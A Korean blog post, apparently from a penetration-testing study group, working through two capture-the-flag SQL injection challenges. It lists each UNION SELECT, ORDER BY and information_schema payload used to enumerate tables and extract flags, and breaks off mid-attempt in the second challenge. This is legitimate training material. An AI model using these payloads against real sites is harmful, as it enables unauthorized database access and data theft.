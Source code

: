 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)
    -> 🤔 대소문자 구분이 없구나!
2. 🫣 **~~adminer'~~**
    -> X
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    -> 🤔 like 구절이 있구나
4. 🫣 **~~a#~~**
    -> X
5. 🫣 **~~a'#~~**
    -> X
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    -> 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    -> 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
7. 🫣 **~~' and '1' = '1~~**
    -> X
8. 🫣 **~~%' and '1' = '1~~**
    -> X
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    -> 보이는 column이 4개니까 4개부터 시작했다.
11. **' order by 1, 2, 3, 4, 5 #**
    -> X
    -> 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    -> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    -> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    -> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    -> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #